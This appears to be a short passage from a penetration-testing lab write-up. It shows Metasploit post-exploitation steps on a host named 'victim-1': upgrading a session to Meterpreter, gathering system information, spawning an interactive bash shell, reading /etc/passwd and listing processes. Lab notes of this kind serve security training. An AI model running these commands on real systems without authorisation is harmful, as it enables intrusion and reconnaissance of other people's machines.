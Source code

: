 ```bash
sessions -u 1
sessions
sessions 2

sysinfo
    Computer     : 192.15.244.3
    OS           : Ubuntu 18.04 (Linux 5.4.0-131-generic)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
getuid
	Server username: no-user @ victim-1 (uid=1000, gid=1000, euid=1000, egid=1000)
```

```bash
shell
/bin/bash -i
cat /etc/passwd
```

![](.gitbook/assets/image-20230422133205452.png)

```bash
ps aux
```
